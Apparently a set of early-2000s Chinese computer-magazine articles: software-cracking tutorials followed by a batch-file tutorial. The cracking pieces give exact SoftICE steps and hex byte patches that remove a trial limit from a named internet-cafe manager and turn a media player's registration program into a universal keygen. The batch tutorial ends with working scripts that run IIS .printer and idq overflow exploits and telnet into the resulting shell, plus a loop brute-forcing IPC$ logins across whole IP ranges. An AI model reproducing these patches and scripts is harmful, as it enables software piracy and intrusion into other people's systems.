0167:005A74F4  MOV EAX,00000001
0167:005A74F9  RETN 000C
0167:005A74FC  PUSH 004CEBBC
0167:005A7501  RETN
...
```

按 F10 将程序运行到 `0167:005A74FC PUSH 004CEBBC` 这一行。然后输入 `D cs:eip` 回车。在数据窗口中显示十六进制代码如下：

```asm
0167:005A74FC 68 BC EB 4C 00 C3 8B 85 FC 47 44 00 8B 8D ...
0167:005A750C 44 00 50 FF 95 08 49 44 00 89 85 E1 39 44 00 ...
```

其中，“68”是 PUSH 指令的二进制代码，“C3”是 RET 指令的二进制代码。然后按 2 次 F10 就会运行到程序的入口点处（参考前面的代码）。

#### 2. 自动脱壳

我们通过扩充 ProcDump 的脚本，可实现自动脱壳功能。打开 ProcDump 的脚本文件 script.ini，加入如下配置（PE 要根据实际情况更改）：

```ini
[AsPack2.000]
L1=OBJR ...
L2=LOOK 68 ?? ?? ?? ?? C3
L3=BP
L4=STEP
OPTL1=00000000
OPTL2=01010000
OPTL3=01010001
OPTL4=00030000
OPTL5=00000000
```

（具体配置的意思，请参阅 ProcDump 程序的说明或相关书籍，由于篇幅有限，这里不再赘述。）然后就可用 ProcDump 来自动脱这个程序的壳了。

运行 ProcDump（图8），选择 Options 选项，按图9进行程序配置（如图不配置，脱壳后的程序在某些情况下可能无法正常运行）。

选择 Unpack 选项，按图10选择加入的 AsPack2.000；出现浏览对话框后选择目标程序，然后会出现如图11的提示。


图8


图9


图10


图11

一定要等目标程序主界面出现后，才能单击确定，然后等待几秒钟，会出现图12所示的保存程序对话框，起个文件名保存就完成脱壳了。


图12

#### 3. 修改脱壳后的文件

程序被脱壳后，我们就可对它进行反编译、修改等操作。按照前面破刀式的思路，跟踪程序执行，找到程序启动时判断注册码的代码段，按自己的意愿对文件进行修改。

这个程序没有在输入注册码后立即判断，而是在重新启动后进行注册认证。关键在于跟踪输入注册码的位置并监视内存读写情况。

在这个程序中，下断点 `bpm 004DFB18`（当写入 `004DFB18` 内存时中断），可以中断到如下所有代码处：

```asm
0167:004C4EBD XOR EAX,EAX
0167:004C4EBF CALL 00477690 (计算已运行天数)
0167:004C4EC4 MOV [00501DEC],EAX
0167:004C4EC9 MOV EAX,[004D7520]
0167:004C4ECE CMP EAX,[004DFB18]
0167:004C4ED4 JZ 004C4F82
0167:004C4EDA MOV EAX,[00501DEC]
0167:004C4EDF CMP EAX,[004D7524]
0167:004C4EE5 JLE 004C4F37
0167:004C4EE7 MOV EAX,00501C98
0167:004C4EEC CALL 004050E4
0167:004C4F2B MOV EAX,[EAX]
0167:004C4F2D CALL 0043335C
0167:004C4F32 JMP 004C65E2
0167:004C4F37 CALL 00408CC0
0167:004C4F3C FCOMP REAL8 PTR [00501BE4]
```

通过仔细分析上面的代码，我们对这个软件的天数限制工作流程是清晰多了。现在，只要把那个计算天数的 `0167:004C4EBF CALL 00477690` 改为空语句即可，使运行天数始终为零，从而使软件永不过期。当然你也可按照自己的意思去修改别的地方。

#### 操作方法如下

- 1. 运行 UltraEdit-32 或任意一款十六进制编辑器（限于篇幅，具体用法不再赘述），然后做以下修改：
  - 天数为零，永不过期。查找 `E8 CC 27 FB FF`（禁止计算运行天数），将其改为 `90 90 90 90 90`。

```asm
0167:004C4EBD XOR EAX,EAX
0167:004C4EBF CALL 00477690 （改为空语句）
0167:004C4EC4 MOV [00501DEC],EAX
```

改好这个地方后，基本上就实现了程序的无限制运行，但运行时，在软件注册窗口中，还会出现未注册，可进行如下修改，让程序显示为已注册（这种修改只是让程序显示已注册，为了好看，不是真正的已注册，一般对修改后程序的运行没有什么影响）。

- 2. 将破解进行到底。查找 `0F 84 A8 00 00 00 A1 EC`（启动时判断注册1），将其改为 `0F 85 A8 00 00 00 A1 EC`（改为不注册跳转）。对应的程序代码：

```asm
0167:004C4EC9 MOV EAX,[004D7520]
0167:004C4ECE CMP ...
```

```asm
（启动时检测是否已注册）
0167:004C4ED4 JZ 004C4F82 （改为 JNZ 跳转）
查找 0F 84 85 00 00 00 A1 24（启动时判断注册2），将其改为 0F 85 85 00 00 00 A1 24（改为不注册跳转）。对应的程序代码：
```

```asm
0167:004C819E MOV EAX,[004D7520]
0167:004C81A3 CMP EAX,[004DEB18] （比较注册标志）
0167:004C81A9 JZ 004C8234 （改为 JNZ 跳转）
0167:004C81AF MOV EAX,[004D7524]
```

```asm
查找 75 1D 33 D2 8B 83 DC 01（显示注册对话框），将其改为 90 90 33 D2 8B 83 DC 01（改为显示注册成功的对话框）。对应的程序代码：

0167:004778BE MOV ...
0167:004778C4 CMP EAX,[EDX]
0167:004778C6 JNZ 004778E5（改为空语句，不跳，显示注册成功）
```

修改完后保存，就可以生成一个破解文件。运行这个文件，发现注册窗口显示已注册成功，如图13。


如果想在软件上留下些字样，在 16 进制编辑器中直接查找所要修改的字符串，改为你所需要的文字就行了！比如查找：“软件注册成功，谢谢你的支持！”，将其改为：“这是破解式破解的一个例子”（没有引号），如图14。


完成破解软件后，如果觉得文件太大，可使用 Aspack 等软件压缩一下。压缩后和原来的大小就差不多了。

#### 4. 删除美萍网管大师

这个软件分析得也差不多了，在完成本节课之前，请删除掉这个软件和破解文件！

#### 5. 修改 ExitWindowsEx 代码

最后一步，现在连 Windows 也关不掉机器。我们要按照前面的方法将那个跳转语句改成原来的指令，就可恢复关机功能了！先在 WinIce 中用 `BE 0` 来开启 ExitWindowsEx 断点，然后单击关闭计算机，程序中断，参照前边进行修改就行了！

#### 6. 练习

按照今天的脱壳方法，练习一下前面所讲的 Windows 优化大师的脱壳和修改。另，最新版的 Windows 优化大师仍可使用改刀式破解，练习一下，看你能不能在三分钟内搞定。注册码变了，工作流程却没有变化！

### 三、后续

至此，《孤孤九剑》软件破解篇的初级篇部分三式就告一段落了。这段时间相对充裕，一日，闲来无事看着笔记本中的数百个破解手记，忽发奇想，孤家总结出一些软件破解技术，对那些对软件破解技术感兴趣的同仁们有所帮助。笔者是个金庸迷，尤其喜欢《笑傲江湖》，一时兴大发，觉得这种软件破解技术和孤孤九剑有很大的相同点——破解，故而斗胆起了这个名字。鉴于篇幅有限和例子较少，要掌握这些技术，是不太容易的，还好暑假将至，笔者打算暂停后续中级篇的文章，并花些时间来详解这部分涉及到的诸多变化的破解。

## 《超级刀剑》软件破解篇之宝刀小试

清风幻影

- 硬件及软件工具
- 《超级解霸3000》英雄版
- WinIce 4.0.5 for Win9x（动态跟踪）
- UltraEdit-32 V9.20（十六进制编辑）
- （注：以上软件在光盘中有收录）

### 一、软件下载与安装

将以上所提软件在光盘中下载后，按提示安装即可，很简单！

### 二、分析程序注册部分代码

运行《超级解霸3000》英雄版的 AuthReg.exe 注册程序，按图1所示输入用户名，随意输入注册码，如 1111-2222-3333-4444（此时若按确定，会出现图2所示的注册失败对话框）。按 Ctrl+D 切入 WinIce 窗口，下方能断点 bpx hmemcpy。然后 Ctrl+D 返回，单击确定。


程序中断后，按 G 回车4次，然后按 8 下 F12 来到如下注册码比较程序段：

```asm
0167:0040243F LEA EAX,[ESP+04]
0167:00402443 PUSH EAX
0167:00402444 PUSH 0040A960
0167:00402449 CALL 00403440
0167:0040244E NEG EAX
```

运行到“0167:00402449 CALL 00403440，调用注册码判断子程序”这一行时，按 F8 跟踪进去，来到如下子程序（请你参考注释，分析一下这段程序）：

```asm
0167:00403440 SUB ESP,20
0167:00403443 XOR EAX,EAX
0167:00403445 MOV ECX,00000008
0167:0040344A PUSH EBX
0167:0040344B PUSH ESI
...
0167:00403601 ADD ESP,20
```

通过跟踪分析上面的程序段，我们当然可通过修改程序流程在内存中找到正确的注册码。但我们要把这个程序改造成一个万能注册机。

### 三、改造 AuthReg.exe 程序为万能注册机

#### 1. 原理和代码

将每组数据比较的部分改成用真注册码覆盖假注册码，最后返回注册成功！程序会将正确的注册码记入注册表，即可实现万能注册！

修改方法如下，请您慢慢体会，不再赘述！

### （1）第1组注册码比较核心代码

```asm
0167:004034A2 MOVSX EDX,BYTE PTR [ECX+ESP+0C]
0167:004034A7 CMP EDX,EAX
0167:004034A9 JNZ 004035DB
```

对应16进制代码：

```text
0F BE 54 0C 0C 3B D0 0F 85 2C 01 00 00
```

修改为：

```asm
0167:004034A2 MOVSX EDX,WORD PTR [ECX+ESP+0C]
0167:004034A7 MOV [ESI+ECX],DX
0167:004034AA INC ECX
0167:004034AC NOP
0167:004034AD NOP
0167:004034AE NOP
```

对应16进制代码：

```text
0F BF 54 0C 0C 66 89 14 31 41 90 90 90
```

### （2）第2组注册码比较核心代码

```asm
0167:00403500 MOVSX EDX,BYTE PTR [ECX+ESP+10]
0167:00403505 CMP EDX,EAX
0167:00403507 JNZ 004035E6
```

对应16进制代码：

```text
0F BE 54 0C 10 3B D0 0F 85 D9 00 00 00
```

修改为：用计算出的真的第2组注册码覆盖我们输入的第2组注册码。

```asm
0167:00403500 MOVSX EDX,WORD PTR [ECX+ESP+10]
0167:00403505 MOV [ESI+ECX+08],DX
0167:0040350A INC ECX
0167:0040350B NOP
0167:0040350C NOP
```

对应的16进制代码：

```text
0F BF 54 0C 10 66 89 54 31 05 41 90 90
```

### （3）第3组注册码比较核心代码

```asm
0167:0040355E MOVSX EDX, BYTE PTR [ECX+ESP+14]
0167:00403563 CMP   EDX,EAX
0167:00403565 JNZ   004035F1
```

对应的16进制代码：

```text
0F BE 54 0C 14 3B D0 0F 85 86 00 00 00
```

修改为：用计算出的真的第3组注册码覆盖我们输入的第3组注册码。

```asm
0167:0040355E MOVSX EDX, WORD PTR [ECX+ESP+14]
0167:00403563 MOV   [ECX+ESI+0A],DX
0167:00403568 INC   ECX
0167:00403569 NOP
0167:0040356A NOP
```

对应的16进制代码：

```text
0F BF 54 0C 14 66 89 54 0E 0A 41 90 90
```

### （4）第4组注册码比较核心代码

```asm
0167:004035C3 CMP EDX,EAX
0167:004035C5 JNZ 004035FC
0167:004035C7 INC ECX
0167:004035C8 CMP ECX,04
...
0167:004035E3 RET 0008
```

对应的16进制代码：

```text
0F BE 54 0C 18 3B D0 75 35 41 83 F9 04 ...
```

修改为：用计算出的真的第4组注册码覆盖我们输入的第4组注册码，并将 EAX 置1返回。

```asm
0167:004035BE MOVSX EDX,WORD PTR [ECX+ESP+18]
0167:004035C3 MOV   [ESI+ECX+0F],DX
0167:004035C8 INC   ECX
0167:004035C9 INC   ECX
0167:004035CA CMP   ECX,04
0167:004035CF MOV   EAX,00000001
0167:004035D4 NOP
...
0167:004035DD POP EDI
0167:004035DE POP ESI
0167:004035DF POP EBX
0167:004035E0 ADD ESP,20
0167:004035E3 RET 0008
```

对应的16进制代码：

```text
0F BF 54 0C 18 66 89 54 31 0F 41 41 83 F9 04 ...
5E 5B 83 C4 20 C2 08 00
```

#### 2. 修改文件

这个程序没有加壳，故可以直接修改。用16进制编辑软件打开 AuthReg.exe。

```text
查找/替换多组16进制字节（文中给出的对应补丁序列）
...
```

修改完毕后，存盘返回。再次运行 AuthReg.exe，输入用户名与注册码，可弹出注册成功对话框，并显示正确注册码。


图3


图5


图4

### 四、删除这个程序

最后，将这个软件和改造后的 AuthReg.exe 从机器上删除掉！请支持国产软件！

### 五、引发思考

通过对程序文件的改造，可实现很多功能。但修改不当可能带来系统信息安全隐患，请谨慎对待。作者表示不再刊出后续文章，并将稿费捐给贫困学生。

## 精彩连载100%


## 精通批处理教程

### （连载一）

雪莲蓬

## 第一部分 批处理的常用命令

批处理文件是将一系列命令按一定的顺序集合为一个可执行的文本文件，其扩展名为 BAT。这些命令统称批处理命令，下面我就来给大家介绍一下批处理命令。

#### 1. REM

REM 是个注释命令，一般用来给程序加上注解，该命令后的内容在程序执行时将不会被显示和执行。

```bat
REM 你现在看到的就是注解
```

这一句将不会被执行。


> 在以后的例子中，解释的内容都会放在 REM 后面，请大家注意！

#### 2. ECHO

ECHO 是一个回显命令，主要参数有 OFF 和 ON。一般用 ECHO message 来显示一个特定的消息。

```bat
Echo off
Rem 以上代表关闭回显（即不显示所执行的命令）
Echo 这个就是消息
Rem 以上代表显示“这就是消息”这列字符
```

执行结果：

```text
C:\>ECHO.BAT
这就是消息。
```

#### 3. GOTO

GOTO 即为跳转的意思。在批处理中允许以“:XXX”来构建一个标号，然后用 GOTO 标号直接来执行标号后的命令。

```bat
:LABEL
REM 上面就是名为 LABEL 的标号
DIR C:\
DIR D:\
GOTO:LABEL
REM 以上程序跳转标号 LABEL 处继续执行
```

#### 4. CALL

CALL 命令可以在批处理执行过程中调用另一个批处理，当另一个批处理执行完毕后，再继续执行原来的批处理。

批处理 2.BAT 内容如下：ECHO 这就是 2 的内容。

批处理 1.BAT 内容如下：ECHO 这是 1 的内容。

```bat
CALL 2.BAT
ECHO 1 和 2 的内容全部显示完成。
```

执行结果如下：

```text
C:\>1.BAT
这是 1 的内容
这就是 2 的内容
1 和 2 的内容全部显示完成。
```

#### 5. PAUSE

PAUSE 停止系统命令的执行并显示下面的内容。

```text
C:\> PAUSE
```

请按任意键继续……

#### 6. IF

IF 条件判断语句，语法格式如下：

```bat
IF [NOT] ERRORLEVEL number command
IF [NOT] string1==string2 command
IF [NOT] EXIST filename command
```

说明：  
[NOT]：将返回的结果取反值，即“如果没有”的意思；  
ERRORLEVEL：是命令执行完成后返回的退出值；  
Number：退出值的数字取值范围 0~255，判断时值的排列顺序应由大到小。返回的值大于或等于指定值时，条件成立；  
string1==string2：string1 和 string2 都为字符串的数据；  
EXIST filename：为文件或目录存在的意思。

IF ERRORLEVEL 这条语句必须放在某一个命令后面。执行命令后由 IF ERRORLEVEL 来判断命令的返回值。

```bat
echo off
dir z:
rem 如果退出代码为 1（不成功）就跳至标题 1 处执行
IF ERRORLEVEL 1 goto 1
rem 如果退出代码为 0（成功）就跳至标题 0 处执行
IF ERRORLEVEL 0 goto 0
:0
echo 命令执行成功！
Rem 程序执行完毕跳至标题 exit 处退出
goto exit
:1
echo 命令执行失败！
Rem 程序执行完毕跳至标题 exit 处退出
goto exit
:exit
Rem 这里是程序的出口
```

（2）IF string1==string2 command

检测当前变量的值做出判断。

```bat
@ECHO OFF
IF %1==2 goto no
Echo 变量相等!
Goto exit
:no
echo 变量不相等
goto exit
:exit
```

大家可以这样看效果 C:\>test.bat 数字

（3）IF [NOT] EXIST filename command  
发现特定的文件做出判断。

```bat
echo off
IF not EXIST autoexec.bat goto 1
echo 文件存在成功！
goto exit
:1
echo 文件不存在失败！
goto exit
:exit
```

这个批处理大家可以放在 C 盘和 D 盘分别执行，看看效果。

#### 7. FOR

FOR 这个命令比较特殊，是一个循环执行命令，同时 FOR 的循环里面还可套用 FOR 再进行循环。这篇我们介绍基本的用法，就不做套用的循环了，后面再为大家讲解。

在批处理中 FOR 的命令如下：

```bat
FOR [%%c] IN (set) DO [command] [arguments]
```

在命令行中命令如下：

```bat
FOR [%c] IN (set) DO [command] [arguments]
```

- 常用参数：
- `/L` 该集表示以增量形式从开始到结束的一个数字序列，因此 `(1,1,5)` 将产生序列 `1 2 3 4 5`，`(5,-1,1)` 将产生序列 `5 4 3 2 1`。
- `/D` 如果集中包含通配符，则指定与目录名匹配，而不与文件名匹配。
- `/F` 从指定的文件中读取数据作为变量。
- `eol=c`：指一个行注释字符的结尾（就一个）。
- `skip=n`：指在文件开始时忽略的行数。
- `delims=xxx`：指分隔符集，替换默认分隔符集（空格和制表符）。
- `tokens=x,y,m-n`：指每行的哪些符号传递到 for 本身；可用范围与尾部保留规则。
- `usebackq` 指定新语法可用于：在命令中使用反引号字符串、在文件名中使用双引号字符串。

下面来看一个例子：

```bat
FOR /F "eol=; tokens=2,3* delims=, " %i in (myfile.txt) do @echo %i %j %k
```

会分析 myfile.txt 中的每一行，忽略以分号打头的行，将每行中的第二个和第三个符号传递给 for 程序体，用逗号和“/”或空格定界符号。

> 注意：这个 for 程序体的语句引用 `%i` 取得第2个符号，`%j` 取得第3个符号，`%k` 取得第3个符号后的所有剩余符号。若文件名包含空格，需要双引号；并配合 `usebackq` 选项。

`%i` 专门在 for 语句中得到说明，`%j` 和 `%k` 通过 `tokens=` 选项得到说明。可通过 `tokens=` 指定最多 26 个符号（变量名不应超过 `z` 或 `Z`）。

> 注意：FOR 变量名分大小写，是通用的；同时不能有 52 个以上都在使用中。

你还可以在相邻字符串上使用 FOR /F 分析逻辑。方法是：用单引号将括号之间的 filenameset 括起来，这样该字符串会被当作文件中的一个单一输入行。

最后，你可以用 FOR /F 命令来分析命令的输出。方法是：将括号之间的 filenameset 变成一个反括字符串，该字符串会被当作命令行，传递到 CMD.EXE，其输出会被抓进内存并当作文件分析。

```bat
FOR /F "usebackq delims===" %i IN (`set`) DO @echo %i
```

以下列举一个简单的例子，它将说明参数 `/L` 和没有参数的区别：例：删除文件 1.TXT 2.TXT 3.TXT 4.TXT 5.TXT。

```bat
@ECHO OFF
FOR /L %%F IN (1,1,5) DO DEL %%F.TXT
```

或者

```bat
FOR %%F IN (1,2,3,4,5) DO DEL %%F.TXT
```

以上 2 条命令执行的结果都是一样的，如下：

```text
C:\>DEL 1.TXT
C:\>DEL 2.TXT
C:\>DEL 3.TXT
C:\>DEL 4.TXT
C:\>DEL 5.TXT
```

#### 8. SETLOCAL

开始批处理文件中环境改动的本地化操作。在执行 SETLOCAL 后，所做的环境改动只限于批处理文件。要还原原先的设置，必须执行 ENDLOCAL。达到批处理文件结尾时，对于该批处理文件的每个尚未执行的 SETLOCAL 命令，都会有一个隐含的 ENDLOCAL 被执行。例：

```bat
@ECHO OFF
SET PATH  /* 察看环境变量PATH */
PAUSE
SETLOCAL
SET PATH=E:\TOOLS  /* 重新设置环境变量PATH */
SET PATH
PAUSE
ENDLOCAL
SET PATH
```

从上例我们可看到环境变量 PATH 第 1 次被显示时是系统默认路径。被设置成了 E:\TOOLS 后显示为 E:\TOOLS，但当 ENDLOCAL 后，我们可看到它又被还原成了系统内默认路径。这个设置只在该批处理运行时有作用，当批处理运行完成后，环境变量 PATH 将会还原。

#### 9. SHIFT

SHIFT 命令可让在命令上的命令使用超过 10 个（%0~%9）以上的可替代参数，例：

```bat
ECHO OFF
ECHO %1 %2 %3 %4 %5 %6 %7 %8 %9
SHIFT
ECHO %1 %2 %3 %4 %5 %6 %7 %8 %9
SHIFT
ECHO %1 %2 %3 %4 %5 %6 %7 %8 %9
执行结果如下：
C:\>SHIFT.BAT 1 2 3 4 5 6 7 8 9 10 11
1 2 3 4 5 6 7 8 9
2 3 4 5 6 7 8 9 10
3 4 5 6 7 8 9 10 11
```

以上就是基于 Win2000 下的 9 个批处理命令。

### 第三部分——特殊的符号与批处理

在命令行下，有些符号是不允许使用的，但有些符号却有着特殊的意义。

#### 1. 符号（@）

@ 在批处理中时意思是关闭当前行的回显。我们从上面知道，用命令 echo off 可以关闭整个批处理的命令回显，但却不能不显示 echo off 这个命令。现在，我们在这个命令前加上 @，这样 echo off 这一命令就被 @ 关闭了回显，从而达到所有命令均不回显的要求。

#### 2. 符号（>）

“>” 的意思是传递并覆盖。它所起的作用是将运行后的回显结果传递到后面的范围（后面可是文件，也可是默认的系统控制台）。例：  
文件 1.txt 的文件内容为：1+1。使用命令：

```text
c:\>dir *.txt >1.txt
```

这时候 1.txt 的内容如下：

```text
驱动器 C 中的卷没有标签。
卷的序列号是 301A-1508
C:\ 的目录
2003-03-14 14:04 1,005 FRUNLOG.TXT
2003-04-04 16:38 18,598,494 log.txt
2003-04-04 17:02 5 1.txt
2003-03-12 11:43 0 airerrorlog.txt
2003-03-30 00:35 30,571 202,108.txt
5 个文件 18,630,070 字节
0 个目录 1,191,542,784 可用字节
```

“>” 将命令执行的结果覆盖了原始的文件内容。在传递给控制台时，程序将不会有任何回显。

> 注意：（这里的回显跟 echo off 关掉的回显不是同一概念。echo off 关掉的是输入命令的回显，这里的回显是程序执行中或后的回显）

例如：

```text
C:\>dir *.txt >nul
```

程序将没有任何显示，也不会产生任何痕迹。

#### 3. 符号（>>）

符号 “>>” 的作用与符号 “>” 相似，但它们的区别在于：“>>” 是传递并在文件末尾追加，“>” 也可将回显传递给控制台（用法同上）。例：  
文件 1.txt 内容同为：1+1。使用命令：

```text
C:\>dir *.txt >>1.txt
```

这时候 1.txt 的内容如下：

```text
1+1
驱动器 C 中的卷没有标签。
卷的序列号是 301A-1508
C:\ 的目录
```

```text
2003-03-11 14:04         1,005 FRUNLOG.TXT
2003-04-04 16:38    18,598,494 log.txt
2003-04-04 17:02             5 1.txt
2003-03-12 11:43             0 aerolog.txt
2003-03-30 00:35    30,571,202 108.txt
5 个文件 18,630,070 字节
0 个目录 1,191,542,784 可用字节
```

“>>”将命令执行的结果叠加在了原始文件内容后面。

#### 4. 符号（|）

“|”是一个管道传输命令，意思是将上一命令执行的结果传递给下一命令去处理。例：

```bat
C:\>dir c:\|find "1508"
```

卷的序列号是 301A-1508。  
以上命令的意思为：查找 C:\ 的所有内容，并查找 1508 字符串。  
Find 的用法请用“find /?”自行查看。  
在不使用 format 的自动格式化参数时，我是这样来自动格式化盘片的：

```bat
echo y|format a: /s /q /v:system
```

用过 Format 命令的人都知道，Format 有一个交互对话过程，要使用者输入 y 来确定当前命令是否被执行。在这个命令前加上 echo y 并用管道传输符“|”将 echo 执行的结果 y 传递给 Format，从而达到手工输入 y 的目的（这条命令有危险性，测试的时候请谨慎）。

#### 5. 符号（^）

“^”是对特殊符号“>”、“<”、“&”的前导字符。在命令中它将以上 3 个符号的特殊功能去掉，仅仅只把它们当成符号而不使用它们的特殊意义。例：

```bat
c:\>echo test^> 1.txt
test > 1.txt
```

从上面可以看出，并没有把 test 写入文件 1.txt，而是将 test > 1.txt 当字符串显示了出来。这个符号在远程构建批处理时，很有效果。

#### 6. 符号（&）

“&”符号允许在一行中使用 2 个以上不同的命令，当第一个命令执行失败时，将不影响第 2 个命令的执行。例：

```bat
c:\>dir z:\ & dir y:\ & dir c:\
```

以上命令将会连续显示 z:、y:、c: 盘内的内容，不理会该盘符是否存在。

#### 7. 符号（&&）

“&&”符号也是允许在一行中使用 2 个以上不同的命令，当第一个命令执行失败后，后续命令将不会再被执行。例：

```bat
c:\>dir z:\ && dir y:\ && dir c:\
```

以上命令将会提示检查是否存在 z: 盘，如果存在则执行，如果不存在则停止执行后续命令。

#### 8. 符号（" "）

`" "`符号允许在字符串中包含空格。进入一个特殊目录可用如下方法。例：

```bat
c:\>cd "Program Files"
c:\>cd progra~1
c:\>cd.prog...
```

以上方法都可进入 Program Files 目录。

#### 9. 符号（,）

“,”符号相当于空格。在某些特殊情况下，可以用“,”来代替空格使用。例：

```bat
c:\>dir,c:\
```

#### 10. 符号（;）

“;”符号当命令相同时，可将不同目标用“;”隔离开来，但执行效果不变。如执行过程中发生错误，则只返回错误报告，但程序还是会继续执行。例：

```bat
DIR C:\,D:\,E:\,F:\
```

以上的命令相当于

```bat
DIR C:\
DIR D:\
DIR E:\
DIR F:\
```

当然，还有些特殊符号。但它们的使用范围很小，我就不在这里一一说明了。

下一期我们将针对具体案例来进行分析，十分精彩，希望大家继续关注！

## 精彩连载100%


## 精通批处理教程
## （结局篇）

雪莲蓬

上文为大家讲了批处理的专用命令和特殊的符号与批处理，这则我们继续学习。

### 第三部分——批处理与变量

在批处理时，适当的引用变量会使你所编制的程序应用面更广。批处理每次能处理的变量从 %0~%9 共 10 个，其中 %0 默认为批处理的文件名使用；除非在使用 Shift 命令后，%0 才能被 %1 所替代。引用 Shift 命令前例子：如果在 %1 前多加一个 %0，那么结果如下：

```bat
C:\>SHIFT.BAT 1 2 3 4 5 6 7 8 9 10 11
SHIFT.BAT 1 2 3 4 5 6 7 8 9
1 2 3 4 5 6 7 8 9 10
2 3 4 5 6 7 8 9 10 11
```

系统是如何区分每个变量的呢？系统区分变量的规则为空格分隔。若变量中包含空格（如长目录名），需要用引号将其括起来，例如：

```bat
ECHO %1
ECHO %2
ECHO %3
```

输入命令：

```bat
C:\>TEST "Program Files" Program Files
Program Files
Program
Files
```

在一个复杂的批处理中，可能同时使用的变量会超过 10 个，这时会和系统规则冲突。可使用环境变量（SET 可查看），如 %windir% 或 %SystemRoot%。可先把参数保存为环境变量再使用，避免受 Shift 影响；必要时重设环境变量。下面给出变量与变量之间传递的例子。

```bat
@ECHO OFF
SET PASS=%1
SHIFT
SET PASS1=%1
SHIFT
ECHO %PASS% %PASS1% %1 %2 %3 %4 %5 %6 %7 %8 %9

SHIFT
ECHO %PASS% %PASS1% %9
SET PASS=%PASS1%
SET PASS1=%9
SHIFT
ECHO %PASS% %PASS1% %9
```

使用命令：

```bat
C:\>TEST A B 3 4 5 6 7 8 9 10 K L
A B 3 4 5 6 7 8 9 10 K（注意：这行显示了 11 个变量）
A B L ...（在使用了 3 次 SHIFT 之后，%9 变成了 L）
B L ...（变量传递后的结果）
```

### 第四部分 完整案例

以上就是批处理的一些用法。现在把这些用法结合起来，详细分析网上发布的一些批处理，看看它们如何运作。这里列举三个例子作详细分析，为保持程序完整，注释加在 `/*` 后面。

#### 例一

这个例子是利用 iis5hack.exe 对有 .printer 漏洞的主机进行溢出的批处理。用到程序有 iis5hack.exe 和系统自带 telnet.exe，iis5hack 的命令格式为：

```text
iis5hack <目标ip> <目标端口> <目标版本> <溢出连接端口>
```

目标版本为 0-9，这 10 个数字分别对应不同语言版本和 SP 的系统版本，我们编制的批处理使用的命令格式为：

```bat
<iis.bat 目标ip （开始版本号）>
```

开始版本号可有可无，程序如下：

```bat
@echo off
if "%1"=="" goto help  /* 判断%1是否为空，%1为目标IP */
if "%2"=="1" goto 1
if "%2"=="2" goto 2
if "%2"=="3" goto 3
if "%2"=="4" goto 4
if "%2"=="5" goto 5
if "%2"=="6" goto 6
if "%2"=="7" goto 7
if "%2"=="8" goto 8
if not EXIST iis5hack.exe goto file
ping %1 -n 1 | find "Received = 1"
if errorlevel 1 goto error
...
iis5hack %1 80 9 88 | find "good"
if not errorlevel 1 goto telnet
echo 操作系统类型 9 失败!
...
iis5hack %1 80 1 88 | find "good"
if not errorlevel 1 goto telnet
echo 操作系统类型 1 失败!
iis5hack %1 80 0 88 | find "good"
if not errorlevel 1 goto telnet
echo 操作系统类型 0 失败!
goto error

:telnet
telnet %1 88
goto exit

:error
echo 可能网络不能连接或对方已经补该漏洞，请按照下面的格式手工尝试一次！
echo iis5hack [目标IP] [WEB端口] [系统类型] [开放端口]
ECHO 中文            0
ECHO 中文+sp1       1
ECHO 英文            2
ECHO 英文+sp1       3
ECHO 日语            4
ECHO 日语+sp1       5
ECHO 韩文            6
ECHO 韩文+sp1       7
ECHO 西班牙语        8
ECHO 墨西哥语+sp1    9
goto exit

:file
echo 文件 iis5hack.exe 没有发现，程序终止运行！
goto exit

:help
echo 本程序用法如下：
echo iis [目标ip]
echo iis [目标ip] [开始的号码9-0]

:exit
```

这个批处理基本没有什么循环，只是一路走下来，所以代码比较长，难度不大！

#### 例二

这个例子是用 iisidq.exe 对有 idq 漏洞的机器进行溢出的批处理。使用的程序有 iisidq.exe 和系统自带的程序 telnet.exe，iisidq.exe 的用法如下：

```text
（运行参数）<操作系统类型> <目的地址> <web端口> <溢出监听端口> <输入命令{1}>
```

其中，如果输入命令参数没有输入，那么默认为："cmd.exe"。操作系统类型的代码范围是 0-14，我们编制的批处理使用的命令格式为 `<idq.bat 目标ip>`，程序如下：

```bat
@echo off
if not EXIST iisidq.exe goto file
if %1=="" goto error
ping %1 -n 1 | find "Received = 1"
if errorlevel 1 goto error1
set b=%1
set a=0
:no
set /a a=%a%+1
if %a%==0 set d=0
if %a%==1 set d=1
if %a%==2 set d=2
if %a%==3 set d=3
if %a%==4 set d=4
if %a%==5 set d=5
if %a%==6 set d=6
if %a%==7 set d=7
if %a%==9 set d=9
if %a%==10 set d=13
if %a%==11 set d=14
goto 0

:1
echo 正在执行第%d%项！与目标%b%不能连接！正在尝试连接请等待……

:0
IISIDQ %d% %b% 80 1 99 | find "good"
if errorlevel 1 goto 1

:1
ping 127.0.0.1 -n 8 >nul
echo 正在执行第%d%项！
telnet %b% 99
echo.
if %d%==14 goto error1
if %d%==13 set a=11
if %d%==9 set a=10
if %d%==7 set a=8
if %d%==6 set a=7
if %d%==5 set a=6
if %d%==4 set a=5
if %d%==3 set a=4
if %d%==2 set a=3
if %d%==1 set a=2
if %d%==0 set a=1
goto no

:file
echo iisidq.exe 没有发现！将该文件和源文件放在同一目录！
goto exit

:error
echo 错误！目标ip不可识别！请使用下面的格式连接！
echo idq [目标IP]
goto exit

:error1
echo 连接没有成功！可能目标机器已经修补了该漏洞或网络故障所致！
echo 请按照下面的格式手工尝试！
echo iisidq [目标类型] [目标IP] [目标端口] [连接方式] [溢出端口]
echo telnet [目标ip] [溢出端口]
goto exit
```

这个批处理采用的是整体循环，掌握好计数器部分就掌握了这个批处理。

#### 例三

```bat
for /l %%a in (0,1,255) do for /l %%b in (0,1,255) do for /l %%c in (1,1,254) do for /f "tokens=1,2*" %%e in (userpass.txt) do net use \\%%1.%%a.%%b.%%c\ipc$ %%e /u:%%f
```

上面的命令是 1 条命令，使用了 4 个 FOR 来套用。用法为：`C:\>TEST.BAT 218`。输入 218 回车后，第 1 个 for 取初始值 0 为 %%a，然后第 2 个 for 取初始值 0 为 %%b，第 3 个 for 取初始值 1 为 %%c，最后一个 for 将 `userpass.txt` 中的第一段字符作为密码 %%e，第二段字符作为用户名 %%f。

```bat
net use \\218.0.0.1\ipc$ 123 /u:abc
```

当然，上面这个例子可能有些朋友会说太简单，并且太死板不灵活。我把这个例子做了些修改（完整文件见光盘），有兴趣的朋友可自己查看。修改后的程序可灵活找你指定开始到结束或指定开始到第几 IP 的范围。当然功能还可以再加强，至于能加强到什么地步，能不能成为一个简易的工具，那就是你的事了。这个循环动作大了点，主要是 IP 的数字替换麻烦。这个批处理我就不写注释了，大家好好参考上面的内容，会很快看懂这个批处理的。

### 后记

